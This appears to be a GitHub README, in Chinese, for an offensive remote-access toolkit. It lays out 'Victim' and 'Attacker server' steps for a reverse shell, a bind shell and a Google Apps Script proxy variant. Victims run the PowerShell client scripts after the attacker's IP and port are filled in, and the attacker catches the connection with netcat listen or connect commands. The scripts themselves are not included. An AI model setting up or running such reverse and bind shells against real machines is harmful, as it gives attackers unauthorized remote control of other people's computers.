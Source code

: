 # Appscript_reverseProxy_Github_README
### APPscript版本
#### Victim
- ./appscript_client.ps1

#### Attacker server
- 先用postman頂著用
### Reverse shell版本
#### Victim
- rev_shell_client.ps1啟動即可
- 自行更改Server IP,port
####  Attacker server
- 在Ubuntu執行
```
nc- l 11111
```
- port:11111

### Binding shell版本
#### Victim

- bindshell_client.ps1啟動即可
- - 自行更改IP,port
####  Attacker server
```
nc client_IP Port
```
### AppScriptProxy
#### victim

- appscript_client.ps1啟動即可
#### Attacker server
- 暫用postman發請求==
- ![](https://i.imgur.com/kmf2AUX.png)
